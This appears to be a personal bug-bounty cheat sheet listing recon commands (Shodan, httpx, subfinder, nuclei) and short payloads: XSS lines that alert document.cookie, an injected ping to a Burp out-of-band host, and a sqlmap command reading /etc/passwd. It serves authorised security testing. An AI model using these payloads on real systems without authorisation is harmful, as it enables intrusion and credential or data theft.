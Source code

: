 # Bug Bounty Personal Tips

## Recon 

##### shodan
`http.favicon.hash:123456789`

## HTTPX 

`/home/kali/go/bin/httpx -l FC -ss -srd /media/sf_Test/FC/screenshots/ --title --status-code -o /media/sf_Test/FC_httpx.txt `

`/home/kali/go/bin/httpx -l FC -proxy http://192.168.0.131:1337 `

`/home/kali/go/bin/httpx -l CHANGEME -p 80,81,443,591,593,832,981,1010,1311,2082,2087,2095,2096,2480,3000,3128,3333,4243,4567,4711,4712,4993,5000,5104,5800,6543,7000,7396,7474,8000,8001,8008,8014,8042,8069,8080,8081,8088,8090,8091,8118,8123,8172,8222,8243,8280,8281,8333,8443,8500,8834,8880,8888,8983,9000,9043,9060,9080,9090,9091,9200,9443,9800,9981,12443,16080,18091,18092,20720,28017,11443 -sc -fr --title -ss -favicon  /media/sf_Test/CHANGEME/screenshots/ -o /media/sf_Test/CHANGEME/CHANGEME_httpx.txt -proxy http://192.168.0.131:1337`

## XSS
`  : /"><script>alert(document.cookie)</script> `

` %27)+O+%22%3E%3Cscript%3Ealert(document.domain);%3C/script%3E `

## SSRF 
` galletita ; ping -c 1 burp.oastify.com `

## SQLMAP

`sqlmap -u "http://X/dashboard/dashboard.php" --file-read="/etc/passwd"`

### OTHERS
` assetfinder X.com | tee -a /tmp/X.txt`

` cat /tmp/X.txt | httprobe -p http:81 -p https:8443 -p http:8000 -p http:8001 -p http:8181 -t 40000 | tee -a /tmp/X.txt `

`  nuclei -l p.txt -t cves/ -t default-credentials/ -o priceline_results.txt -p http://192.168.100.2:1337`

` subfinder -d X | /home/kali/go/bin/httpx -u -status-code -title -tech-detect -follow-redirects -timeout 5 `

` site:*.com.ar "bug bounty" OR "vulnerability disclosure" OR "security policy" `

